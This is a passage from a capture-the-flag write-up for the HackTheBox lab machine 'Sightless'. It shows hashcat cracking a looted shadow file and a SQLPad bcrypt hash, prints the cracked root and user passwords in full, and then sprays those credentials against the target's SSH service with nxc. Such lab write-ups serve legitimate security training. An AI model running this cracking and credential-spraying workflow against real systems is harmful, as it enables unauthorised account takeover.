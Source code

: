 - `loot/shadow`

```bash
PS C:\Users\GOD> cd C:\Users\GOD\Documents\Sec\hashcat-6.2.6\; hashcat.exe H:\VM-Share\Kali\shadow H:\VM-Share\Kali\rockyou.txt
hashcat (v6.2.6) starting in autodetect mode
[...]

PS C:\Users\GOD\Documents\Sec\hashcat-6.2.6> cd C:\Users\GOD\Documents\Sec\hashcat-6.2.6\; hashcat.exe H:\VM-Share\Kali\shadow H:\VM-Share\Kali\rockyou.txt --show --user
Hash-mode was not specified with -m. Attempting to auto-detect hash mode.
The following mode was auto-detected as the only one matching your input hash:

1800 | sha512crypt $6$, SHA512 (Unix) | Operating System
[...]
root:$6$jn8fwk6LVJ9IYw30$qwtrfWTITUro8fEJbReUc7nXyx2wwJsnYdZYm9nMQDHP8SYm33uisO9gZ20LGaepC3ch6Bb2z/lEpBM90Ra4b.:blindside
michael:$6$/Mo8R4wtiTNfTNVN$SMYyJjgjGl80eE8l3a.sphhbO3xidDQ/TtdAMXBHel09Taz9QAw8ItZQzrzivz9EPUU6EWXjVG1jGio23izss/:insaneclownposse
```

- `loot/sqlpad.sqlite.hash`

```bash
PS C:\Users\GOD\Documents\Sec\hashcat-6.2.6> cd C:\Users\GOD\Documents\Sec\hashcat-6.2.6\; hashcat.exe H:\VM-Share\Kali\sqlpad.sqlite.hash H:\VM-Share\Kali\rockyou.txt --user -m 3200
hashcat (v6.2.6) starting
[...]

PS C:\Users\GOD\Documents\Sec\hashcat-6.2.6> cd C:\Users\GOD\Documents\Sec\hashcat-6.2.6\; hashcat.exe H:\VM-Share\Kali\sqlpad.sqlite.hash H:\VM-Share\Kali\rockyou.txt --user -m 3200 --show
admin:$2a$10$cjbITibC.4BQQKJ8NOBUv.p0bG2n8t.RIIKRysR6pZnxquAWsLFcC:admin
```

### 22 - SSH : Credential stuffing

> `creds.lst`

```bash
root:blindside
michael:insaneclownposse
admin:admin
john:
```

Split it to user and password list

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sightless]
└─$ cat creds.lst | cut -d ":" -f 2- | sed '/^[[:space:]]*$/d' | sort -u > pass.lst; cat creds.lst | cut -d ":" -f 1 | sed '/^[[:space:]]*$/d' | sort -u > users.lst
```

Spray on ssh port

```bash
┌──(bravosec㉿fsociety)-[~/htb/Sightless]
└─$ nxc ssh $(pt get rhost) -u users.lst -p pass.lst --continue-on-success --gfail-limit 3
SSH         10.10.11.32     22     sightless.htb    [*] SSH-2.0-OpenSSH_8.9p1 Ubuntu-3ubuntu0.10
SSH         10.10.11.32     22     sightless.htb    [-] admin:admin
SSH         10.10.11.32     22     sightless.htb    [-] john:admin
SSH         10.10.11.32     22     sightless.htb    [-] michael:admin
SSH         10.10.11.32     22     sightless.htb    [-] root:admin
SSH         10.10.11.32     22     sightless.htb    [-] admin:blindside
SSH         10.10.11.32     22     sightless.htb    [-] john:blindside
SSH         10.10.11.32     22     sightless.htb    [-] michael:blindside
SSH         10.10.11.32     22     sightless.htb    [-] root:blindside
SSH         10.10.11.32     22     sightless.htb    [-] admin:insaneclownposse
SSH         10.10.11.32     22     sightless.htb    [-] john:insaneclownposse
```